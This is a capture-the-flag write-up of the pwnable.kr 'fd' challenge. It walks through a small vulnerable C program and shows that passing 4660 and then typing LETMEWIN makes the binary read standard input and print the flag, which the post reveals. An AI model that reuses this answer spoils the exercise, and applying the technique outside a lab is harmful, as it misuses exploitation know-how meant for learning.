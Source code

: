 ```yaml
---
title: "Test"
classes: wide
tag: 
  - "file descriptors"
header:
  teaser: /assets/images/pwn/pwn.png
ribbon: green
description: "A simple challenge related to file descriptors"
categories:
  - HTB
---
```


Lets connect to the server

```c
ra@moni~/P/pwnable.kr> ssh fd@128.61.240.205 -p 2222
fd@128.61.240.205's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Wed Jun  2 04:57:50 2021 from 106.114.115.94
fd@pwnable:~$
```

After listing the files, we can see there are some privilege restrictions 

```c
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 115 root   root 4096 Dec 22 08:10 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

It seems like we cannot read the flag directly

```c
fd@pwnable:~$ whoami
fd
fd@pwnable:~$ cat flag
cat: flag: Permission denied
```

And analysing our source code of the binary we get,

The RAW CODE is given below,

```c
fd@pwnable:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

From here we can see,

- This binary uses a global variable ```buf``` of 32 bytes

- This binary gets two inputs from arguments (ie. Filename Arg1 )

- It uses ```atoi()``` to convert string to integer

- It uses ```read()``` to get the input data

- It uses ```strcmp()``` and compares it with ```LETMEWIN``` to display the flag


First inorder to compare the data, we need to store it in the ```buf```

Here we are using ```read()``` to store it in ```buf```

To use ```read()``` properly we need to pass the "file descriptor" correctly

```read()``` needs ```0``` as file descriptor

For more about [File Descriptor](https://en.wikipedia.org/wiki/File_descriptor)

To make our file descriptor ```fd``` as ```0```

we should make use of ```int fd = atoi( argv[1] ) - 0x1234;```

So if we pass a value of ```0x1234``` in ```argv[1]``` we could activate ```read()```

Now we need to find value of ```0x1234``` in ```int```

```c
Python 3.8.5 (default, May 27 2021, 13:30:53)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x1234)
4660
```

If we pass this value, our ```read()``` function should be opened to pass our data

Now lets pass ```LETMEWIN``` in our ```buf```

```c
fd@pwnable:~$ ./fd
pass argv[1] a number
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Thats it, we got our conditions true

And we get the flag

```FLAG: mommy! I think I know what a file descriptor is!!```
